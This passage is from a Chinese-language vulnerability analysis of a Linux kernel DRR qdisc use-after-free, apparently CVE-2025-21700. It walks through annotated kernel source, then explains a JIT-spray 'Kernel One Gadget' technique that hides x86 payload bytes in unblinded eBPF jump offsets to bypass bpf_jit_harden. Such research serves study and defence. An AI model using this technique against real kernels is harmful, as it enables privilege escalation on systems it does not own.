            if (!dev_queue) {
                NL_SET_ERR_MSG(extack, "Device does not have an ingress queue");
                return -ENOENT;
            }

            q = rtnl_dereference(dev_queue->qdisc_sleeping);

            /* 与 __tcf_qdisc_find() 中的引用计数提升配对 */
            if (!qdisc_refcount_dec_if_one(q)) {
                NL_SET_ERR_MSG(extack,
                               "Current ingress or clsact Qdisc has ongoing filter requests");
                return -EBUSY;
            }
        }

        /* 设备在运行中，先停用 */
        if (dev->flags & IFF_UP)
            dev_deactivate(dev);

        qdisc_offload_graft_root(dev, new, old, extack);

        if (new && new->ops->attach && !ingress)
            goto skip;

        if (!ingress) {
            /* 非 ingress：遍历所有发送队列完成替换 */
            for (i = 0; i < num_q; i++) {
                dev_queue = netdev_get_tx_queue(dev, i);
                old = dev_graft_qdisc(dev_queue, new);

                if (new && i > 0)
                    qdisc_refcount_inc(new);      /* 多队列额外提升 */
                qdisc_put(old);
            }
        } else {
            old = dev_graft_qdisc(dev_queue, NULL);

            /* ingress/clsact 先销毁旧对象，再挂新对象，避免并发访问 */
            qdisc_notify(net, skb, n, classid, old, new, extack);
            qdisc_destroy(old);

            dev_graft_qdisc(dev_queue, new);
        }

skip:
        if (!ingress) {
            old = rtnl_dereference(dev->qdisc);
            if (new && !new->ops->attach)
                qdisc_refcount_inc(new);
            rcu_assign_pointer(dev->qdisc, new ? : &noop_qdisc);

            notify_and_destroy(net, skb, n, classid, old, new, extack);

            if (new && new->ops->attach)
                new->ops->attach(new);
        }

        /* 恢复设备运行 */
        if (dev->flags & IFF_UP)
            dev_activate(dev);
    } else {
        /* 类路径：通过父 qdisc 的 class 操作集完成替换 */
        const struct Qdisc_class_ops *cops = parent->ops->cl_ops;
        unsigned long cl;
        int err;

        /* 父 qdisc 非无锁时，不允许新 qdisc 保持无锁标志 */
        if (new && (new->flags & TCQ_F_NOLOCK) && !(parent->flags & TCQ_F_NOLOCK))
            qdisc_clear_nolock(new);

        if (!cops || !cops->graft)
            return -EOPNOTSUPP;

        /* ★★★★★ 漏洞点 ★★★★★
         * cops->find 对于 DRR 指向 drr_search_class()，
         * 后者在类哈希表中按 classid 查找目标类。
         * 此处仅解析目标类 fifo_B(1:2)，不校验
         * FIFO(777:)->parent 是否等于 1:2。
         */
        cl = cops->find(parent, classid);
        if (!cl) {
            NL_SET_ERR_MSG(extack, "Specified class not found");
            return -ENOENT;
        }

        if (new && new->ops == &noqueue_qdisc_ops) {
            NL_SET_ERR_MSG(extack, "Cannot assign noqueue to a class");
            return -EINVAL;
        }

        if (new &&
            !(parent->flags & TCQ_F_MQROOT) &&
            rcu_access_pointer(new->stab)) {
            NL_SET_ERR_MSG(extack, "STAB not supported on a non root");
            return -EINVAL;
        }

        /* 调用具体调度器的 graft 回调 */
        err = cops->graft(parent, cl, new, &old, extack);
        if (err)
            return err;
        notify_and_destroy(net, skb, n, classid, old, new, extack);
    }
    return 0;
}
```

**`drr_graft_class()` / `qdisc_replace()`**：DRR 的 graft 回调与替换辅助函数。`qdisc_replace()` 将 `FIFO(777:)` 写入 `fifo_B(1:2)->cl->qdisc`，对旧 pfifo 执行 purge，**不更新 `new->parent`**。

```c
static int drr_graft_class(struct Qdisc *sch, unsigned long arg,
                           struct Qdisc *new, struct Qdisc **old,
                           struct netlink_ext_ack *extack)
{
    struct drr_class *cl = (struct drr_class *)arg;   /* 目标类，由 cops->find 返回 */

    if (new == NULL) {
        /* 未提供新 qdisc 时，创建一个默认 pfifo */
        new = qdisc_create_dflt(sch->dev_queue, &pfifo_qdisc_ops,
                                cl->common.classid, NULL);
        if (new == NULL)
            new = &noop_qdisc;
    }

    /* 将 new 挂到 cl->qdisc，旧值通过 *old 返回 */
    *old = qdisc_replace(sch, new, &cl->qdisc);
    return 0;
}

static inline struct Qdisc *qdisc_replace(struct Qdisc *sch, struct Qdisc *new,
                                          struct Qdisc **pold)
{
    struct Qdisc *old;

    sch_tree_lock(sch);              /* 加锁保护树结构，防止并发修改 */
    old = *pold;                     /* 暂存旧 qdisc，用于后续释放 */
    *pold = new;                     /* 将新 qdisc 写入目标指针，完成挂载替换 */
    if (old != NULL)
        qdisc_purge_queue(old);      /* 清空旧 qdisc 的队列，但不负责释放对象本身 */
    sch_tree_unlock(sch);            /* 解锁 */

    return old;                      /* 返回旧 qdisc，由上层负责释放 */
}
```

**`qdisc_refcount_inc()` / `refcount_inc()`**：引用计数提升。

```c
static inline void qdisc_refcount_inc(struct Qdisc *qdisc)
{
    /* 内置 qdisc 不参与引用计数 */
    if (qdisc->flags & TCQ_F_BUILTIN)
        return;
    refcount_inc(&qdisc->refcnt);
}

static inline void refcount_inc(refcount_t *r)
{
    __refcount_inc(r, NULL);
}
```

**`notify_and_destroy()` / `qdisc_notify()`**：前者发送通知并释放旧 qdisc，后者填充并发送 netlink 消息。二者均不触及 `new->parent`。

```c
static void notify_and_destroy(struct net *net, struct sk_buff *skb,
                               struct nlmsghdr *n, u32 clid,
                               struct Qdisc *old, struct Qdisc *new,
                               struct netlink_ext_ack *extack)
{
    /* new 或 old 非空时，先发送通知 */
    if (new || old)
        qdisc_notify(net, skb, n, clid, old, new, extack);

    /* old 非空时，递减其引用计数并可能释放 */
    if (old)
        qdisc_put(old);
}

static int qdisc_notify(struct net *net, struct sk_buff *oskb,
                        struct nlmsghdr *n, u32 clid,
                        struct Qdisc *old, struct Qdisc *new,
                        struct netlink_ext_ack *extack)
{
    struct sk_buff *skb;
    u32 portid = oskb ? NETLINK_CB(oskb).portid : 0;

    /* 当前命名空间未启用 TC 通知时直接返回 */
    if (!rtnl_notify_needed(net, n->nlmsg_flags, RTNLGRP_TC))
        return 0;

    skb = alloc_skb(NLMSG_GOODSIZE, GFP_KERNEL);
    if (!skb)
        return -ENOBUFS;

    /* 填充旧 qdisc 的删除消息 */
    if (old && !tc_qdisc_dump_ignore(old, false)) {
        if (tc_fill_qdisc(skb, old, clid, portid, n->nlmsg_seq,
                          0, RTM_DELQDISC, extack) < 0)
            goto err_out;
    }
    /* 填充新 qdisc 的新增消息，带 old 时标记为替换 */
    if (new && !tc_qdisc_dump_ignore(new, false)) {
        if (tc_fill_qdisc(skb, new, clid, portid, n->nlmsg_seq,
                          old ? NLM_F_REPLACE : 0, RTM_NEWQDISC, extack) < 0)
            goto err_out;
    }

    if (skb->len)
        return rtnetlink_send(skb, net, portid, RTNLGRP_TC,
                              n->nlmsg_flags & NLM_F_ECHO);

err_out:
    kfree_skb(skb);
    return -EINVAL;
}
```

#### 2-4-4. 通知断裂

**`qdisc_purge_queue()`**：取出 qlen/backlog，重置队列，调用 `qdisc_tree_reduce_backlog()`；完全依赖 `sch->parent` 定位父 qdisc。

```c
static inline void qdisc_purge_queue(struct Qdisc *sch)
{
    __u32 qlen, backlog;

    /* 在重置队列之前，先取出当前 qdisc 的 qlen 与 backlog */
    qdisc_qstats_qlen_backlog(sch, &qlen, &backlog);

    /* 重置该 qdisc 自身的队列状态，会清零 sch->q.qlen，
     * 但不会修改 sch->parent
     */
    qdisc_reset(sch);

    /* 沿父链向上通知 qlen 与 backlog 的变化，完全依赖 sch->parent
     * 来定位父 qdisc；若 sch->parent 陈旧，通知链条在此断裂
     */
    qdisc_tree_reduce_backlog(sch, qlen, backlog);
}
```

**`qdisc_tree_reduce_backlog()`**：沿父链向上遍历，在 `sch->parent` 陈旧时 `qdisc_lookup_rcu()` 返回 `NULL`，循环 `break`，`drr_qlen_notify()` 被跳过。

```c
void qdisc_tree_reduce_backlog(struct Qdisc *sch, int n, int len)
{
    bool qdisc_is_offloaded = sch->flags & TCQ_F_OFFLOADED;
    const struct Qdisc_class_ops *cops;
    unsigned long cl;
    u32 parentid;
    bool notify;
    int drops;

    if (n == 0 && len == 0)
        return;

    drops = max_t(int, n, 0);

    rcu_read_lock();
    while ((parentid = sch->parent)) {
        if (parentid == TC_H_ROOT)
            break;

        if (sch->flags & TCQ_F_NOPARENT)
            break;

        notify = !sch->q.qlen && !WARN_ON_ONCE(!n &&
                                               !qdisc_is_offloaded);

        /* ★★★★★ 漏洞点 ★★★★★
         * 通过 sch->parent 查找父 qdisc；若 sch->parent 陈旧，
         * qdisc_lookup_rcu() 会返回 NULL。此处 sch 是 FIFO(777:)，
         * 其 parent 仍指向已被删除的 fifo_A(11:11)，
         * 因此查找必然返回 NULL。
         */
        sch = qdisc_lookup_rcu(qdisc_dev(sch), TC_H_MAJ(parentid));
        if (sch == NULL) {
            WARN_ON_ONCE(parentid != TC_H_ROOT);
            break;
        }

        cops = sch->ops->cl_ops;
        if (notify && cops->qlen_notify) {
            cl = cops->find(sch, parentid);
            cops->qlen_notify(sch, cl);
        }

        sch->q.qlen -= n;
        sch->qstats.backlog -= len;
        __qdisc_qstats_drop(sch, drops);
    }
    rcu_read_unlock();
}
```

**`qdisc_lookup_rcu()` / `qdisc_match_from_root()`**：RCU 版本的 qdisc 查找，按 handle 在设备范围内匹配。

```c
struct Qdisc *qdisc_lookup_rcu(struct net_device *dev, u32 handle)
{
    struct netdev_queue *nq;
    struct Qdisc *q;

    if (!handle)
        return NULL;
    /* 先在设备根 qdisc 的哈希表中查找 */
    q = qdisc_match_from_root(rcu_dereference(dev->qdisc), handle);
    if (q)
        goto out;

    /* 未命中时，再尝试 ingress 队列的 qdisc_sleeping */
    nq = dev_ingress_queue_rcu(dev);
    if (nq)
        q = qdisc_match_from_root(rcu_dereference(nq->qdisc_sleeping),
                                  handle);
out:
    return q;
}

static struct Qdisc *qdisc_match_from_root(struct Qdisc *root, u32 handle)
{
    struct Qdisc *q;

    /* root 不是设备级 qdisc 时，直接比较自身 handle */
    if (!qdisc_dev(root))
        return (root->handle == handle ? root : NULL);

    /* root 是设备级 qdisc 且非内置时，先比较自身 handle */
    if (!(root->flags & TCQ_F_BUILTIN) &&
        root->handle == handle)
        return root;

    /* 遍历设备 qdisc_hash，逐个比较 q->handle */
    hash_for_each_possible_rcu(qdisc_dev(root)->qdisc_hash, q, hash, handle,
                               lockdep_rtnl_is_held()) {
        if (q->handle == handle)
            return q;
    }
    return NULL;
}
```

**`drr_qlen_notify()`**：本应将空类从活动列表移除，因查找断裂从未被调用。

```c
static void drr_qlen_notify(struct Qdisc *csh, unsigned long arg)
{
    struct drr_class *cl = (struct drr_class *)arg;

    /* 将空类从 drr_sched.active 活动列表中移除。
     * 由于 qdisc_lookup_rcu() 返回 NULL，该回调从未被调用，
     * fifo_B(1:2) 对应的 drr_class 条目仍然留在活动列表中。
     */
    list_del(&cl->alist);
}
```

**`qdisc_hash_del()` / `hash_del_rcu()`**：从设备哈希表中移除 qdisc，是 `qdisc_lookup_rcu()` 返回 `NULL` 的直接原因。

```c
void qdisc_hash_del(struct Qdisc *q)
{
    /* 仅非根、非 ingress 的 qdisc 需要从哈希中移除 */
    if ((q->parent != TC_H_ROOT) && !(q->flags & TCQ_F_INGRESS)) {
        ASSERT_RTNL();
        hash_del_rcu(&q->hash);
    }
}

static inline void hash_del_rcu(struct hlist_node *node)
{
    hlist_del_init_rcu(node);
}

static inline void hlist_del_init_rcu(struct hlist_node *n)
{
    if (!hlist_unhashed(n)) {
        __hlist_del(n);
        WRITE_ONCE(n->pprev, NULL);
    }
}

static inline void __hlist_del(struct hlist_node *n)
{
    struct hlist_node *next = n->next;
    struct hlist_node **pprev = n->pprev;

    WRITE_ONCE(*pprev, next);
    if (next)
        WRITE_ONCE(next->pprev, pprev);
}

static inline int hlist_unhashed(const struct hlist_node *h)
{
    return !h->pprev;
}
```

#### 2-4-5. 释放路径

**`drr_delete_class()` / `drr_destroy_class()`**：DRR 的类删除回调与销毁函数。前者先调用 `qdisc_purge_queue()`，再从类哈希中移除类；后者执行 `kfree(cl)` 与 `qdisc_put(cl->qdisc)`，是悬空 `drr_class` 与悬空 `Qdisc` 的直接来源。

```c
static int drr_delete_class(struct Qdisc *sch, unsigned long arg,
                            struct netlink_ext_ack *extack)
{
    struct drr_sched *q = qdisc_priv(sch);            /* DRR 私有调度数据 */
    struct drr_class *cl = (struct drr_class *)arg;   /* 待删除的类 */

    if (qdisc_class_in_use(&cl->common)) {
        NL_SET_ERR_MSG(extack, "DRR class is in use");
        return -EBUSY;                                /* 类仍在使用，拒绝删除 */
    }

    sch_tree_lock(sch);

    /* 清理 cl->qdisc 的队列；该调用会触发
     * qdisc_tree_reduce_backlog()，若 cl->qdisc->parent
     * 陈旧，则通知链条在此断裂。
     */
    qdisc_purge_queue(cl->qdisc);
    /* 从类哈希中移除该类 */
    qdisc_class_hash_remove(&q->clhash, &cl->common);

    sch_tree_unlock(sch);

    /* 释放类对象与子 qdisc */
    drr_destroy_class(sch, cl);
    return 0;
}

static void drr_destroy_class(struct Qdisc *sch, struct drr_class *cl)
{
    gen_kill_estimator(&cl->rate_est);   /* 释放 estimator */
    qdisc_put(cl->qdisc);                /* 递减并可能释放子 qdisc */
    kfree(cl);                           /* 释放 struct drr_class 本身 */
}
```

**`qdisc_put()` / `refcount_dec_and_test()`**：引用计数递减，归零时调用 `__qdisc_destroy()`。

```c
void qdisc_put(struct Qdisc *qdisc)
{
    if (!qdisc)
        return;

    /* 内置 qdisc 或引用计数未归零时直接返回 */
    if (qdisc->flags & TCQ_F_BUILTIN ||
        !refcount_dec_and_test(&qdisc->refcnt))
        return;

    /* 计数归零，执行实际释放 */
    __qdisc_destroy(qdisc);
}

static inline __must_check bool refcount_dec_and_test(refcount_t *r)
{
    return __refcount_dec_and_test(r, NULL);
}

static inline __must_check bool __refcount_dec_and_test(refcount_t *r, int *oldp)
{
    return __refcount_sub_and_test(1, r, oldp);
}
```

**`__qdisc_destroy()` / `qdisc_free_cb()` / `qdisc_free()`**：qdisc 的实际释放路径。

```c
static void __qdisc_destroy(struct Qdisc *qdisc)
{
    const struct Qdisc_ops  *ops = qdisc->ops;
    struct net_device *dev = qdisc_dev(qdisc);

#ifdef CONFIG_NET_SCHED
    qdisc_hash_del(qdisc);                             /* 从设备 qdisc 哈希中移除 */
    qdisc_put_stab(rtnl_dereference(qdisc->stab));     /* 释放 stab */
#endif
    gen_kill_estimator(&qdisc->rate_est);              /* 释放 estimator */
    qdisc_reset(qdisc);                                /* 清空队列状态 */

    if (ops->destroy)
        ops->destroy(qdisc);                           /* 调度器特定的清理 */

    lockdep_unregister_key(&qdisc->root_lock_key);     /* 注销锁类 key */
    module_put(ops->owner);                            /* 递减模块引用 */
    netdev_put(dev, &qdisc->dev_tracker);              /* 递减设备引用 */

    trace_qdisc_destroy(qdisc);

    call_rcu(&qdisc->rcu, qdisc_free_cb);              /* 延迟到 RCU 宽限期后释放 */
}

static void qdisc_free_cb(struct rcu_head *head)
{
    struct Qdisc *q = container_of(head, struct Qdisc, rcu);

    qdisc_free(q);
}

void qdisc_free(struct Qdisc *qdisc)
{
    /* 若使用 per-CPU 统计，释放对应结构 */
    if (qdisc_is_percpu_stats(qdisc)) {
        free_percpu(qdisc->cpu_bstats);
        free_percpu(qdisc->cpu_qstats);
    }

    kfree(qdisc);                                      /* 释放 qdisc 本身 */
}
```

**`gen_kill_estimator()`**：释放 estimator，是 `drr_destroy_class()` 释放序列的第一环。

```c
void gen_kill_estimator(struct net_rate_estimator __rcu **rate_est)
{
    struct net_rate_estimator *est;

    est = unrcu_pointer(xchg(rate_est, NULL));
    if (est) {
        timer_shutdown_sync(&est->timer);
        kfree_rcu(est, rcu);
    }
}
```

**`list_del()`**：链表节点摘除，仅操作指针，不涉及引用计数。

```c
static inline void list_del(struct list_head *entry)
{
    __list_del_entry(entry);                /* 先校验并摘除指针 */
    entry->next = LIST_POISON1;             /* 标记已删除，便于检测 */
    entry->prev = LIST_POISON2;
}
```

#### 2-4-6. 出队触发

**`drr_enqueue()`**：数据包入队时，若该类此前为空，则将其 `alist` 加入活动列表，是活动列表条目的来源。

```c
static int drr_enqueue(struct sk_buff *skb, struct Qdisc *sch,
                       struct sk_buff **to_free)
{
    unsigned int len = qdisc_pkt_len(skb);          /* 数据包长度 */
    struct drr_sched *q = qdisc_priv(sch);          /* DRR 私有调度数据 */
    struct drr_class *cl;                           /* 目标类 */
    int err = 0;
    bool first;                                     /* 该类此前是否为空 */

    /* 对数据包分类，得到目标类 */
    cl = drr_classify(skb, sch, &err);
    if (cl == NULL) {
        if (err & __NET_XMIT_BYPASS)
            qdisc_qstats_drop(sch);
        __qdisc_drop(skb, to_free);                 /* 分类失败则丢弃 */
        return err;
    }

    /* 记录该类此前是否为空 */
    first = !cl->qdisc->q.qlen;
    /* 将数据包入队到 cl->qdisc */
    err = qdisc_enqueue(skb, cl->qdisc, to_free);
    if (unlikely(err != NET_XMIT_SUCCESS)) {
        if (net_xmit_drop_count(err)) {
            cl->qstats.drops++;
            qdisc_qstats_drop(sch);
        }
        return err;
    }

    /* 首次入队时，将 alist 加入活动列表，并重置 deficit */
    if (first) {
        list_add_tail(&cl->alist, &q->active);
        cl->deficit = cl->quantum;
    }

    sch->qstats.backlog += len;                     /* 更新父 qdisc 的 backlog */
    sch->q.qlen++;                                  /* 更新父 qdisc 的 qlen */
    return err;
}
```

**`drr_dequeue()`**：**UAF 触发点**。遍历活动列表，执行 `cl->qdisc->ops->peek(cl->qdisc)`，在 `cl` 悬空时解引用已释放对象。

```c
static struct sk_buff *drr_dequeue(struct Qdisc *sch)
{
    struct drr_sched *q = qdisc_priv(sch);          /* DRR 私有调度数据 */
    struct drr_class *cl;                           /* 活动列表中的类 */
    struct sk_buff *skb;
    unsigned int len;

    if (list_empty(&q->active))
        goto out;                                   /* 活动列表为空，直接返回 */

    while (1) {
        /* 从活动列表头部取出类 */
        cl = list_first_entry(&q->active, struct drr_class, alist);

        /* ★★★★★ 漏洞点 ★★★★★
         * cl 为活动列表中残留的悬空 drr_class 条目，
         * cl->qdisc 仍指向已被释放的 FIFO(777:)。
         * 此处调用 cl->qdisc->ops->peek，即对已释放对象的
         * ops 指针解引用，形成释放后重用窗口。
         */
        skb = cl->qdisc->ops->peek(cl->qdisc);
        if (skb == NULL) {
            qdisc_warn_nonwc(__func__, cl->qdisc);
            goto out;
        }

        len = qdisc_pkt_len(skb);
        if (len <= cl->deficit) {
            /* 数据包长度不超过 deficit，可以出队 */
            cl->deficit -= len;
            skb = qdisc_dequeue_peeked(cl->qdisc);
            if (unlikely(skb == NULL))
                goto out;
            if (cl->qdisc->q.qlen == 0)
                list_del(&cl->alist);           /* 队列空则移出活动列表 */

            bstats_update(&cl->bstats, skb);
            qdisc_bstats_update(sch, skb);
            qdisc_qstats_backlog_dec(sch, skb);
            sch->q.qlen--;
            return skb;
        }

        /* 数据包长度超过 deficit，增加 deficit 并将该类
         * 移动到活动列表尾部，等待下一轮
         */
        cl->deficit += cl->quantum;
        list_move_tail(&cl->alist, &q->active);
    }
out:
    return NULL;
}
```

**`drr_classify()` / `tcf_classify()` / `__tcf_classify()`**：对数据包分类，决定进入 `plug(1:3)` 还是 `fifo_B(1:2)`。

```c
static struct drr_class *drr_classify(struct sk_buff *skb, struct Qdisc *sch,
                                      int *qerr)
{
    struct drr_sched *q = qdisc_priv(sch);
    struct drr_class *cl;
    struct tcf_result res;
    struct tcf_proto *fl;
    int result;

    /* 若 skb->priority 的主号与 sch->handle 一致，直接按 priority 查找 */
    if (TC_H_MAJ(skb->priority ^ sch->handle) == 0) {
        cl = drr_find_class(sch, skb->priority);
        if (cl != NULL)
            return cl;
    }

    *qerr = NET_XMIT_SUCCESS | __NET_XMIT_BYPASS;
    fl = rcu_dereference_bh(q->filter_list);
    /* 通过过滤器分类 */
    result = tcf_classify(skb, NULL, fl, &res, false);
    if (result >= 0) {
#ifdef CONFIG_NET_CLS_ACT
        switch (result) {
        case TC_ACT_QUEUED:
        case TC_ACT_STOLEN:
        case TC_ACT_TRAP:
            *qerr = NET_XMIT_SUCCESS | __NET_XMIT_STOLEN;
            fallthrough;
        case TC_ACT_SHOT:
            return NULL;
        }
#endif
        cl = (struct drr_class *)res.class;
        if (cl == NULL)
            cl = drr_find_class(sch, res.classid);
        return cl;
    }
    return NULL;
}
```

**`plug_enqueue()` / `plug_dequeue()`**：控制 `plug` 在活动列表中的顺序，使第二次迭代触及已释放的 `fifo_B` 条目。

```c
static int plug_enqueue(struct sk_buff *skb, struct Qdisc *sch,
                        struct sk_buff **to_free)
{
    struct plug_sched_data *q = qdisc_priv(sch);

    /* backlog 加数据包长度未超过 limit 时允许入队 */
    if (likely(sch->qstats.backlog + skb->len <= q->limit)) {
        if (!q->unplug_indefinite)
            q->pkts_current_epoch++;            /* 统计本轮入队包数 */
        return qdisc_enqueue_tail(skb, sch);    /* 追加到队尾 */
    }

    return qdisc_drop(skb, sch, to_free);       /* 超过 limit 则丢弃 */
}

static struct sk_buff *plug_dequeue(struct Qdisc *sch)
{
    struct plug_sched_data *q = qdisc_priv(sch);

    if (q->throttled)
        return NULL;                            /* 已节流，暂不出队 */

    if (!q->unplug_indefinite) {
        if (!q->pkts_to_release) {
            /* No more packets to dequeue. Block the queue
             * and wait for the next release command.
             */
            q->throttled = true;                /* 无待释放包，设置节流 */
            return NULL;
        }
        q->pkts_to_release--;                   /* 递减待释放计数 */
    }

    return qdisc_dequeue_head(sch);             /* 返回队首数据包 */
}
```

至此，漏洞链条从入口校验到 UAF 触发的完整路径已经闭合。`tc_modify_qdisc()` 中缺失的父节点归属校验使 `FIFO(777:)` 的 `parent` 字段未同步更新；`qdisc_tree_reduce_backlog()` 中的反向查找因 `fifo_A(11:11)` 已不可解析而返回 `NULL`，`drr_qlen_notify()` 未被调用；`drr_delete_class()` 释放了 `drr_class` 与 `FIFO(777:)`，而活动列表中的悬空条目未被清理；最终 `drr_dequeue()` 在遍历活动列表时解引用悬空指针，在 `cl->qdisc->ops->peek` 调用点形成释放后重用窗口。

### 2-5. Kernel One Gadget

在 2-4 的分析中，`drr_dequeue()` 遍历活动列表时执行 `cl->qdisc->ops->peek(cl->qdisc)`。当 `cl` 与 `cl->qdisc` 均为悬空指针时，该调用点解引用已释放对象。若利用者能重新占据释放后的 `Qdisc` 槽位并伪造 `ops->peek`，便可获得一次控制流转移的机会。

然而，控制流转移到何处仍需解决两个问题：一是绕过 KASLR，二是提供一段可在内核态执行的载荷。常规路径依赖额外的信息泄露原语与完整的 ROP 链；Kernel One Gadget 则利用 eBPF JIT 编译器生成的内核侧 one gadget，通过预先喷射 JIT 映像并将 `peek` 指向预测地址，使控制流直接进入一段完整的可执行载荷。该思路借鉴于 CVE-2023-4208 的 **kernelCTF** 利用方案，在 **CVE-2025-21700** 的利用链中同样适用。

#### 2-5-1. 属性

Kernel One Gadget 是一个可调用的内核地址，能够在不触发 panic 的情况下完成提权。其属性如下：

- 架构：x86_64
- 绕过：`sysctl.net.core.bpf_jit_harden ∈ {1, 2}`
- 稳定性：在已知模块 KASLR 绕过的前提下 100% 稳定
- `optmem_max` 需求：`0x5000`
- 是否需要用户命名空间：否
- 写入原语：任意内核内存写，108 字节，其中 38 字节不可控
- 是否要求 JIT 默认开启：是
- 是否要求调用者位于目标写入区域：是
- 是否可能阻塞一个 CPU：是（内核中运行死循环）
- 最少 CPU 数：2

Payload 结束后，`r15`、`r14`、`r12`、`rbp`、`rbx` 可恢复，`r13` 被破坏。分析基于 6.x 内核。

#### 2-5-2. 背景

##### 2-5-2-1. eBPF 程序

eBPF 程序是一串在内核中运行的小型指令。用户通过 `SO_ATTACH_FILTER` 将其挂载到 socket：

```c
int fd = socket(AF_INET, SOCK_DGRAM, 0);
setsockopt(fd, SOL_SOCKET, SO_ATTACH_FILTER, &prog, sizeof(prog));
```

之后每个到达该 socket 的数据包都会触发内核执行这个 eBPF 程序，由它决定是否接受、丢弃、修改数据包等。每条 eBPF 指令是 8 字节：

```c
struct bpf_insn {
    __u8    code;       /* 操作码            */
    __u8    dst_reg:4;  /* 目标寄存器        */
    __u8    src_reg:4;  /* 源寄存器          */
    __s16   off;        /* 跳转偏移          */
    __s32   imm;        /* 立即数            */
};
```

例如，把常量 `0x11223344` 加载到累加器的指令是：

```c
struct bpf_insn insn = {
    .code    = BPF_LD | BPF_K,
    .dst_reg = BPF_REG_0,
    .src_reg = 0,
    .off     = 0,
    .imm     = 0x11223344,
};
```

##### 2-5-2-2. JIT 流程

用解释器执行字节码太慢。内核在程序第一次挂载时就把每条 eBPF 程序编译为本地机器码，即 JIT 编译器。流水线为：

```
   用户程序（cBPF 或 eBPF）
          │
          ▼  挂载到 socket
   cBPF -> eBPF 翻译（可选）
          │   net/core/filter.c : bpf_convert_filter()
          ▼
   JIT 编译器
          │   arch/x86/net/bpf_jit_comp.c : do_jit()
          ▼
   RX 区中的机器码
          │   kernel/bpf/core.c : bpf_jit_binary_pack_alloc()
          ▼
   模块内存区中的可执行映像
```

JIT 把上述加载指令降级为一条 x86 `mov`：

```
mov eax, 0x11223344        b8 44 33 22 11
```

`0x11223344` 在内存中按小端序存储，因此 JIT 映像中完整的 5 字节指令是 `b8 44 33 22 11`。若从 `b8` 之后的字节进入，CPU 会把 `44 33 22 11` 解码为 4 个独立的机器码字节。

##### 2-5-2-3. 错位执行

假设 JIT 映像如下：

```
偏移     字节            从偏移 0 解码
------  ---------------  ------------------------
0x00    b8 48 01 f2 3c   mov eax, 0x3cf20148
0x05    b8 31 c0 90 3c   mov eax, 0x3c90c031
0x0a    ...
```

若 CPU 从偏移 `1` 开始执行，它看到的第一个字节是 `48`（REX.W 前缀），与下一个字节合成更长指令：

```
偏移 1:  48 01 f2        -> add rdx, rsi
偏移 4:  3c b8           -> cmp al, 0xb8
偏移 6:  31 c0           -> xor eax, eax
偏移 8:  90              -> nop
偏移 9:  3c ...
```

错位解码产生的两条指令中，`48 01 f2` = `add rdx, rsi` 是利用者选择的真实指令，`3c b8` = `cmp al, 0xb8` 是衔接技巧。`cmp al, 0xb8` 吃掉了下一条 `mov` 指令的 `b8` 起始字节，使错位解码器跨过 `b8`，落到下一条 `mov` 的立即数字节上。这就是衔接链：每段利用者选择的字节序列都以一个“吃掉下一条指令前缀”的字节结尾。

跳入 JIT 生成的代码让利用者能在内核态执行其选择的 x86 指令，这基本等同于内核态任意代码执行。历史防护措施就是常量盲化。

##### 2-5-2-4. 常量盲化

```c
/* kernel/bpf/core.c : bpf_jit_blind_insn() */
if (bpf_jit_harden) {
    emit_mov(reg, random);
    emit_xor(reg, random ^ original_k);
}
```

当 `sysctl.net.core.bpf_jit_harden` 为 `1` 或 `2` 时，eBPF 程序中的每个立即数都会被重写。加载 `0x11223344` 的指令会被降级为：

```asm
; ---- 未启用 bpf_jit_harden ----
mov eax, 0x11223344             b8 44 33 22 11

; ---- 启用 bpf_jit_harden ----
mov eax, 0x12345678             b8 78 56 34 12
xor eax, 0x0316653C             35 3c 65 16 03
   ; 注意: 0x12345678 ^ 0x11223344 == 0x0316653C
```

试图从 JIT 映像中读取立即数的利用者不再能看到 `44 33 22 11`，而是 `78 56 34 12` 与 `3c 65 16 03`，这些值与利用者想要编码的值毫无关系。

#### 2-5-3. 技术细节

##### 2-5-3-1. 未盲化指令

盲化引擎需要知道 JIT 指令中哪些字节是常量，它会重写所有能识别出的立即数。有些指令因常量被认为无害而豁免：`shr reg, K`（`K ∈ [0, 31]`）与无条件跳转 `BPF_JMP | BPF_JA`。无条件跳转的常量是跳转偏移，在链接期才被确定：

```c
struct bpf_insn ja = {
    .code = BPF_JMP | BPF_JA,
    .off  = <chosen>,       /* 未被盲化：链接期解析 */
};
```

JIT 把 `BPF_JMP | BPF_JA` 编译为一条 x86 `jmp`，偏移为 4 字节小端序：

```
jmp <offset>            e9 <off_lo> <off_hi> <off_hi2> <off_hi3>
```

这 4 个偏移字节完全由利用者控制，且未被盲化，给出了与未加固时 `BPF_LD | BPF_K` 相同的四字节窗口。

两个大小限制：

```python
MAX_INSNS   = 4096              # BPF_MAXINSNS
OPTMEM_MAX  = 0x5000            # 默认值
MSB_LIMIT   = OPTMEM_MAX >> 8   # = 0x50

assert any_encoded_byte_high < MSB_LIMIT
```

`MSB_LIMIT` 限制来自 `optmem_max`。内核为每个 socket 的 BPF 程序预留 `optmem_max` 字节，其估计方式是每条 BPF 指令约 8 字节。如果编码后的总大小需要 `≥ 0x50` 的立即数字节，就会超出预算。

##### 2-5-3-2. 衔接模式

每个被编码的立即数最高的两个字节必须是 0。这留下三种可用字节模式。标签 (I) 或 (II) 表示错位解码器把它当作一条指令所消耗的字节数。

```asm
; ---- 模式 "break"（不可用） -------------------------------------
XX YY 00 00             ... XX YY
                        00 00          ; add byte ptr [rax], al，触碰内存

; ---- 模式 (I) --------------------------------------------------
XX YY 00 E9             ... XX YY
                        00 e9          ; add cl, ch，2 字节指令

; ---- 模式 (II) -------------------------------------------------
A0 B0 00 00 E9          movabs ..., [0xXXXXXXXXE90000B0]
```

实际只用到模式 (I) 和 "break"，并且 payload 经过设计使得 "break" 永不发生。最终 payload 只使用下面这组最小编码：

```asm
; ---- 4 字节立即数指令（模式 II）---------------------------------
b8 XX 00 00 e9          mov  eax, 0xe90000XX
35 XX 00 00 e9          xor  eax, 0xe90000XX
05 XX 00 00 e9          add  eax, 0xe90000XX
2d XX 00 00 e9          sub  eax, 0xe90000XX

; ---- 用于满足 Bi = 00 的 2 字节 "nop" ---------------------------
04 00                   add al, 0x00

; ---- 单字节指令（模式 I）---------------------------------------
54                      push rsp
55                      push rbp
50                      push rax
52                      push rdx
5d                      pop  rbp
58                      pop  rax
5a                      pop  rdx

; ---- 双字节指令（模式 I）---------------------------------------
89 45 00                mov  [rbp], eax
88 45 00                mov  [rbp], al
01 45 00                add  [rbp], eax
29 45 00                sub  [rbp], eax
```

##### 2-5-3-3. 构建块

Payload 由四个原语函数构建。

**`encode_byte_into_eax(byte)`**：目标为使 `eax == byte`。

```asm
; 从一个低字节为 0x01 的已知值开始。
mov eax, 0xe9000001             b8 01 00 00 e9

